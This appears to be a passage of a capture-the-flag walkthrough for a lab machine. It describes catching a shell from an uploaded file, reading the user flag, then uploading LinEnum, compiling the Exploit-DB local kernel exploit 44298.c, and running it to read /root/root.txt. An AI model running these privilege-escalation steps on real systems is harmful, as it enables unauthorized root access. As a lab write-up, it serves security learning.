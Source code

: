 1. Your file uploaded that was md5hashed will be found and a link will be given to you.
2. Your listener will catch the return when your file is accessed.
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552778212_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552865962_image.png)


navigate to /home/help & cat user.txt

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548552976496_image.png)



#NOW WE ESCALATE!

navigate to /dev/shm and upload LinEnum and discover that the kernel is exploitable 

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548553075680_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548553147160_image.png)


download locally:

    searchsploit -m exploits/linux/local/44298.c
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548553237632_image.png)


Upload to /dev/shm/ and gcc

    gcc 44298.c -o priv

execute priv

    ./priv

#WELCOME TO FLAVOR COUNTRY DESTINATION YOU!

![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548553340637_image.png)



  go get the goods located at
    /root/root.txt
![](https://d2mxuefqeaa7sj.cloudfront.net/s_1AFCA0806F8747ED2BCE9486EE0D98F0048234983B66B548511F5C597AFA9893_1548553424125_image.png)



